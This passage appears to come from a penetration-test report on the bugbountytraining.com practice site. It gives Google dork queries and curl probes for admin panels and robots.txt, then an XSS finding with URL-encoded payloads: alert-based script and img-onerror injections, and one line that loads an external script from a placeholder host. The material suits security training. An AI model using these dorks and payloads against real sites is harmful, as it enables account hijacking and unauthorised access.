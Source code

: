 #### Manual Testing Steps
1. **Google Dorking:**
   ```
   # Search for indexed admin panels
   site:bugbountytraining.com inurl:admin
   site:bugbountytraining.com inurl:AdminPanel
   site:bugbountytraining.com inurl:login
   site:bugbountytraining.com intitle:"admin" OR intitle:"login"
   ```

2. **Direct URL Access:**
   ```bash
   # Test direct access to discovered admin panels
   curl -I https://www.bugbountytraining.com/challenges/AdminPanel/
   curl -I https://www.bugbountytraining.com/challenges/loginchallenge/
   ```

3. **Search Engine Cache Verification:**
   ```
   # Check if pages are cached in search engines
   cache:www.bugbountytraining.com/challenges/AdminPanel/
   ```

4. **Robots.txt Analysis:**
   ```bash
   # Check what's disallowed in robots.txt
   curl https://www.bugbountytraining.com/robots.txt
   ```

### FFHK-003: Cross-Site Scripting (XSS) Vulnerabilities

**ID:** FFHK-003  
**Severity:** 🔴 High  
**Category:** Cross-Site Scripting  
**CVSS Score:** 8.8 (AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:H)  

#### Description
Multiple Cross-Site Scripting (XSS) vulnerabilities were identified in the FastFoodHackings application during comprehensive testing. These vulnerabilities allow attackers to inject malicious JavaScript code that executes in victims' browsers. **Enhanced Analysis:** Further investigation discovered 15+ additional XSS injection points with various attack vectors.

#### Vulnerable Endpoints
```
ORIGINAL XSS INJECTION POINT:
└── index.php Parameter Injection:
    └── https://www.bugbountytraining.com/fastfoodhackings/index.php?act=--%3E%3Cimg%20src=x%20onerror=alert(2) [200 OK]

ADDITIONAL XSS INJECTION POINTS (Enhanced Discovery):
├── HTML Injection via 'act' parameter:
│   ├── /fastfoodhackings/index.php?act=--%3E%3Cb%3Elogintesttest%3C%2Fb%3E
│   └── /fastfoodhackings/index.php?act=--%3E%3Ch1%3Eaaa%3C%2Fh1%3E
├── Script Injection:
│   ├── /fastfoodhackings/index.php?act=--%3E%3Cscript%3Ealert(2)%3C%2Fscript
│   └── /challenges/challenge-1.php?query=%3Cscript%3Ealert%281%29%3C%2Fscript%3E
├── Event Handler Injection:
│   └── /fastfoodhackings/index.php?act=--%3E%3Cimg%20src=x%20onerror=alert(2)
└── External Script Loading:
    └── /challenges/challenge-1.php?query=%3Cscript%20src=//yoursite.com/js.js
```
